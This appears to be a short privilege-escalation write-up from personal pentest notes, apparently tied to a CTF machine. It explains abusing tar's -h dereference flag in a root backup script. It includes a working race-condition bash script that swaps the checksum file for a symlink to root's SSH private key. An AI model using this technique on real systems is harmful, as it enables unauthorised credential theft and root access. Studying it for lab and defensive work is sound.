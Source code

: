 ```yaml
---
description: >-
  Tar Symlink Exploitation (Linux)
title: Tar Symlink Exploitation (Linux)              # Add title here
date: 2022-08-24 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Tar Symlink Exploitation]                     # Change Templates to Writeup
tags: [linux privesc, tar, symlink exploitation]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Abusing dereference
Reviewing the code inside we get this:
```bash
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

As we can notice there is a stranger flag within the latest tar command which is -h:

```bash
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
```

After reading the manual for tar, we can see that this flag is used to follow symlink and dump the file that is pointing to:

```bash
			 --exclude-vcs-ignores
		      Exclude files that match patterns read from VCS-specific ignore files.
					Supported  files  are:  .cvsignore,  .gitignore,
              .bzrignore, and .hgignore.

       -h, --dereference
              Follow symlinks; archive and dump the files they point to.

       --hard-dereference
              Follow hard links; archive and dump the files they refer to.
```

With this in mind then we can start a race condition to delete the checksum file which is being generated and then insert our symlink pointing to an interesting file that allow us to escalate privileges (root id_rsa for example):

First we need to create a script that checks when the file checksum is generated, remove it and create our symlink instead of it pointing to the id_rsa from root, exactly like this:

```bash
#!/bin/bash

while true
do
        if [ -e /opt/backups/checksum ]
        then
                rm -rf /opt/backups/checksum
                ln -s /root/.ssh/id_rsa /opt/backups/checksum
                break;
        fi
done
```
Examples:
[[Epsilon#^8af3a9]]

